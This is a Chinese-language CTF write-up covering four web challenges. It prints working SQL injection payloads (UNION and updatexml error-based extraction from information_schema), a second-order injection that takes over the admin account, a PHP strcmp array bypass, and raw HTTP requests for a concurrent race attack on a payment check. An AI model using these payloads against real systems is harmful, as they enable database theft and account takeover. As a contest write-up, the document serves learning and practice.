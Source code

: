 ```yaml
---
title: 中计量现科CTF竞赛
date: 2020-06-21
image: 
description: 由中国计量大学现代科技学院主办的比赛。
categories: 
- ctf_writeup
tags:
- 二次注入
- 条件竞争
---
```



------

### easyweb

源码忘了脱下来，大概考察PHP strcmp()函数，直接数组绕过

```
?password[]=shit
```

 

 

 

### 成绩单

白给题，Union注入无任何过滤，上来直接一血

```
id=-1' union select 1,group_concat(table_name),3,4 from information_schema.tables where table_schema=database()#
//fl4g,sc
id=-1' union select 1,group_concat(column_name),3,4 from information_schema.columns where table_name='fl4g'#
//flag
id=-1' union select 1,flag,3,4 from fl4g#
//flag{Sql_INJECT0N_4813drd8hz4}
```

 

 

 

 

### shop

考点：条件竞争

说实话一开始以为是逻辑漏洞，尝试了半天没搞出来，想到了条件竞争但是因为爆破的时候线程设置的不够高，所以没搞出来，时候来又尝试了一次才想到。

#### 什么是条件竞争

参考：https://www.jianshu.com/p/09d0eb938e6a


竞争条件发生在多个线程同时访问同一个共享代码、变量、文件等没有进行锁操作或者同步操作的场景中。

开发者在进行代码开发时常常倾向于认为代码会以线性的方式执行，而且他们忽视了并行服务器会并发执行多个线程，这就会导致意想不到的结果。

线程同步机制确保两个及以上的并发进程或线程不同时执行某些特定的程序段，也被称之为临界区（critical section），如果没有应用好同步技术则会发生“竞争条件”问题。



#### 两个例子

##### 例1：金额提现

假设现有一个用户在系统中共有2000元可以提现，他想全部提现。于是该用户同时发起两次提现请求，第一次提交请求提现2000元，系统已经创建了提现订单但还未来得及修改该用户剩余金额，此时第二次提现请求同样是提现2000元，于是程序在还未修改完上一次请求后的余额前就进行了余额判断，显然如果这里余额判断速度快于上一次余额修改速度，将会产生成功提现的两次订单，而数据库中余额也将变为-2000。而这产生的后果将会是平台多向该用户付出2000元。

 

##### 例2：先存储文件，再判断是否合法，然后再删除。

首先将文件上传到服务器，然后检测文件后缀名，如果不符合条件，就删掉，典型的“引狼入室”

攻击：首先上传一个php文件

当然这个文件会被立马删掉，所以我们使用多线程并发的访问上传的文件，总会有一次在上传文件到删除文件这个时间段内访问到上传的php文件，一旦我们成功访问到了上传的文件，那么它就会向服务器写一个shell。

#### 回到题目

打开题目，显示账户剩余20元，flag需要21元，然后你可以输入小于等于20元的金额，另外有个重置按钮

思路就是分别抓两个包，一个不停的支付20元，一个不停的重置，在高并发的情况下服务器响应不过来就可以造成支付两次

注意事项就是支付金额最好是10元以上，如果是一两元的话，就不能和另外一个包形成竞争还有就是线程要多

```
POST / HTTP/1.1
Host: aaaed42d.yunyansec.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:72.0) Gecko/20100101 Firefox/§72§.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 16
Origin: http://aaaed42d.yunyansec.com
Connection: close
Referer: http://aaaed42d.yunyansec.com/
Upgrade-Insecure-Requests: 1
 
money=20&submit=
POST / HTTP/1.1
Host: aaaed42d.yunyansec.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:72.0) Gecko/20100101 Firefox/§72§.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 16
Origin: http://aaaed42d.yunyansec.com
Connection: close
Referer: http://aaaed42d.yunyansec.com/
Upgrade-Insecure-Requests: 1
 
money=&restart=1
```

开两个intruder，线程20，爆破出flag

![img](https://raw.githubusercontent.com/Anthem-whisper/imgbed/master/img/20210120171516.png)

 

 

### easy

考点：二次注入

打开就一个注册登录界面，admin账户已经注册了，登录之后可以改密码，本来以为是越权，后来放出了hint是二次注入，以前对于这样的二次注入比较陌生，感觉此题还是有点意思

 

#### 利用注册用户名进行sqli

注册这里没有sqli，在改密码那里才可以触发，盲猜查询语句：

```
update XXX set password = "xxx" where username = "xxx" and (old)password = "xx";
```

hint提示了注入之后，在注册用户名那里，注册：

```
admin"#
```

登录进去之后，修改密码为123456，改完之后我们可以直接123456登录admin的账户了，说明我们已经注入成功了

但是到这里一筹莫展，后来才想到可以继续利用sqli查信息

 

#### 利用报错注入查信息

简单fuzz了一下，空格，/**/这些被过滤了，update不知道能不能union，我直接想到报错注入+括号套娃

```
test"||updatexml(2,concat(0x7e,(database())),0)#
//easy
abc"||updatexml(2,concat(0x7e,(select(group_concat(table_name))from(information_schema.tables)where(table_schema)='easy')),0)#
//article,flag,user
abc"||updatexml(2,concat(0x7e,(select(group_concat(column_name))from(information_schema.columns)where(table_name)='flag')),0)#
//flag
abc"||updatexml(2,concat(0x7e,(select(flag)from(flag))),0)#
//flag{We11D0Ne_hOhO}
```

![img](https://raw.githubusercontent.com/Anthem-whisper/imgbed/master/img/20210120171534.png)

其实主要就是这个二次注入比较难想到，学到许多
